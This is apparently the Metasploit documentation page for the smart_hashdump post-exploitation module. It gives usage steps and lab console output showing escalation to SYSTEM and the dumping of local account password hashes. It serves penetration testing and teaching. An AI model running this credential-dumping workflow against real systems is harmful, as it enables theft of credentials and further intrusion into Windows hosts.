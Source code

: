 The post/windows/gather/smart_hashdump module dumps local accounts from the SAM database. If the target host is a Domain Controller, it will dump the Domain Account Database using the proper technique depending on privilege level, OS and role of the host.

Hashes will be saved to the meterpreter database in John the Ripper format for later use.

## Vulnerable Application

To be able to use post/windows/gather/smart_hashdump, you must meet these requirements:

* You are on a Meterpreter type session.
* The target is a Windows platform.
* It must be executed under the context of a high privilege account, such as SYSTEM.

## Verification Steps

1. Obtain a meterpreter shell on a Windows system, running as a highly privileged or SYSTEM user.
1. Load the module, `use post/windows/gather/smart_hashdump`
1. Specify the session, eg: `set SESSION 1`
1. If necessary, tell the module to attempt to elevate to SYSTEM first: `set GETSYSTEM true`
1. Run the module.

For example:
```
msf6 exploit(multi/handler) > use post/windows/gather/smart_hashdump
msf6 post(windows/gather/smart_hashdump) > show options

Module options (post/windows/gather/smart_hashdump):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   GETSYSTEM  false            no        Attempt to get SYSTEM privilege on the target host.
   SESSION                     yes       The session to run this module on.

msf6 post(windows/gather/smart_hashdump) > set  SESSION 1
SESSION => 1
msf6 post(windows/gather/smart_hashdump) > run

[*] Running module against DESKTOP-G7A2R2R
[*] Hashes will be saved to the database if one is connected.
[+] Hashes will be saved in loot in JtR password file format to:
[*] /home/kali/.msf4/loot/20201008121933_default_192.168.56.117_windows.hashes_338495.txt
[-] Insufficient privileges to dump hashes!
[*] Post module execution completed
msf6 post(windows/gather/smart_hashdump) > set GETSYSTEM true
GETSYSTEM => true
msf6 post(windows/gather/smart_hashdump) > run

[*] Running module against DESKTOP-G7A2R2R
[*] Hashes will be saved to the database if one is connected.
[+] Hashes will be saved in loot in JtR password file format to:
[*] /home/kali/.msf4/loot/20201008122008_default_192.168.56.117_windows.hashes_353942.txt
[*] Dumping password hashes...
[*] Trying to get SYSTEM privilege
[+] Got SYSTEM privilege
[*]     Obtaining the boot key...
[*]     Calculating the hboot key using SYSKEY 4934844cf0365459683ed18d9ebcb903...
[*]     Obtaining the user list and keys...
[*]     Decrypting user keys...
[*]     Dumping password hints...
[*]     No users with password hints on this system
[*]     Dumping password hashes...
[+]     Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+]     DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+]     WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+]     user:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Post module execution completed
```


## Scenarios

**High Privilege Account**

Before using post/windows/gather/smart_hashdump, there is a possibility you need to escalate your privileges. This module features a `GETSYSTEM` option, which will attempt to elevate from a high privileged account to NT AUTHORITY\SYSTEM.

```
msf6 post(windows/gather/smart_hashdump) > set GETSYSTEM true
GETSYSTEM => true
```

Note that this will invoke Meterpreter's standard GetSystem feature prior to running the module, and it will affect the entire session. To demonstrate, a Meterpreter shell running as an administrator account:
```
  Session ID: 1
        Name:
        Type: meterpreter windows
        Info: DESKTOP-G7A2R2R\user @ DESKTOP-G7A2R2R
      Tunnel: 192.168.56.118:4444 -> 192.168.56.117:49680 (192.168.56.117)
         Via: exploit/multi/handler
   Encrypted: Yes (AES-256-CBC)
        UUID: bd2a0bae4a53009e/x86=1/windows=1/2020-10-08T03:42:16Z
     CheckIn: 4s ago @ 2020-10-08 12:52:17 +0900
  Registered: No
```

After invoking the `post/windows/gather/smart_hashdump` on the session with `GETSYSTEM` set to `true` will look like (see the example in Verification Steps):
```
  Session ID: 1
        Name:
        Type: meterpreter windows
        Info: NT AUTHORITY\SYSTEM @ DESKTOP-G7A2R2R
      Tunnel: 192.168.56.118:4444 -> 192.168.56.117:49680 (192.168.56.117)
         Via: exploit/multi/handler
   Encrypted: Yes (AES-256-CBC)
        UUID: bd2a0bae4a53009e/x86=1/windows=1/2020-10-08T03:42:16Z
     CheckIn: 0s ago @ 2020-10-08 12:55:12 +0900
  Registered: No

```
